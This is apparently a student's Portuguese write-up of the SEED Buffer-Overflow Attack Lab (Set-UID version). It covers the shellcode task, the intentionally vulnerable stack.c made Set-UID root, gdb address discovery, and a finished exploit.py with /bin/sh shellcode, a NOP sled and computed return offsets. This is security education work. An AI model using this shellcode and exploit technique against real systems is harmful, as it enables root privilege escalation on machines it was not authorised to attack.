 # Semana #5 - Buffer-Overflow Attack Lab - Set-UID Version

## Task 1 - Getting familiar with shellcode

Esta task familiariza-nos com shellcode. Aprendemos que a melhor maneira para correr shellcode é através de código assembly. Aprendemos, também, um pouco sobre o código assembly utilizado para chamar a função **execve()** e executar `/bin//sh`.
Depois de compilar o ficheiro `call_shellcode.c`, são criados 2 ficheiros:

- `a32.out`, que contém o código em 32 bits
- `a64.out`, que contém o código em 64 bits

Embora o código assembly seja diferente dependendo se é 32 bits ou 64 bits, quando corremos notamos que ambos, de facto, abrem a shell bash e, depois de escrever `whoami`, ambas as bashes respondem com **seed**.


## Task 2 - Understanding the Vulnerable Program

Primeiramente, começamos por compilar o ficheiro `stack.c` e torná-lo num Set-UID program através dos seguintes comandos:

```
sudo chown root stack
```


```
sudo chmod 4755 stack
```

O conteúdo do `stack.c` é o seguinte:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv){
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```


Alternadamente, podemos simplesmente fazer **make**, pois o `Makefile` já tem as instruções para fazer isto.

Depois de fazer **make**, são criados 4 pares de ficheiros executáveis:

- `stack-L1` e `stack-L1.dbg`
- `stack-L2` e `stack-L2.dbg`
- `stack-L3` e `stack-L3.dbg`
- `stack-L4` e `stack-L4.dbg`

Agora, falta mudar o conteúdo do `badfile`` para conseguirmos dar exploit à vulnerabilidade existente.

## Task 3 - Launching Attack on 32-bit Program (Level 1)

Primeiro, temos que criar o ficheiro `badfile``:

```
touch badfile
```

Agora, vamos correr o código em modo debug para conseguirmos descobrir a distância entre a posição inicial do **buffer** e o sítio onde o **return address** está armazenado. Para isso, vamos escrever a seguinte instrução: 

```
gdb stack-L1-dbg
```

Depois de meter um breakpoint na função **bof()**, executar o programa e dar alguns passos para a frente, podemos saber o endereço do **$ebp** da seguinte forma:

```
p $ebp
```

Que retornou `(void *) 0xffffcb18`.<br>
Podemos fazer o mesmo para descobrir o endereço do buffer:

```
p &buffer
```

Que retornou `0xffffcaac`.<br>

Por fim, alteramos o ficheiro `exploit.py` para ter os valores dos endereços obtidos. O ficheiro final ficou assim:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's (do nothing operation)
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 190
offset = 0xffffcb18 - 0xffffcaac + 4

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
